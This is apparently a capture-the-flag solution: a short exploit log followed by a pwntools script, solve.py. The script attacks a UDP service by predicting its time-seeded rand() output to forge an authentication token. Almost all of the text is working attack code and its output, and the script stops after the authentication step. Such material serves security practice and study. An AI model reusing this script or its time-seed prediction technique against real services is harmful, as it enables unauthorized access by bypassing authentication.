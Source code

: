 ```
b"In the moon's tender embrace, shadows waltz in a silvery dance, weaving dreams with a gentle trance.\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
[*] Switching to interactive mode
file can't be read
server_flag
$ 
```

## Exploit script

>solve.py
```python
from pwn import *
from ctypes import *
import socket 
from time import sleep 
import sys

libc=ELF('./libc.so.6')
glibc = cdll.LoadLibrary('libc.so.6')
#io=remote('157.245.147.89', 24210, typ="udp")
io=remote('0', 9981, typ='udp')

opcode=[0x301, 0x101, 0x201]

def printdata(size, data):
    pl=p32(0x70303070)
    pl+=p32(opcode[0])
    pl+=p16(size)
    pl+=data
    io.send(pl)
    
plain=b''
session=b''
def genarate_rand_string(size=0, data=0):
    global plain
    pl=p32(0x70303070)
    pl+=p32(opcode[1])
    pl+=p16(size)
    pl+=b'A'*100
    io.send(pl)
    glibc.srand(glibc.time(None))
    for i in range(32):
        plain+=p8(glibc.rand() & 0xff)    
    print(plain.hex())
    data= io.recv()
    return data
    
def authenticate(size=0):
    global session
    pl=p32(0x70303070)
    pl+=p32(opcode[2])
    pl+=p16(0x100)
    pl+=plain
    io.send(pl)
    data= io.recv()
    session=io.recv()
    print(data)
    return session
     
genarate_rand_string()  
a=authenticate()
```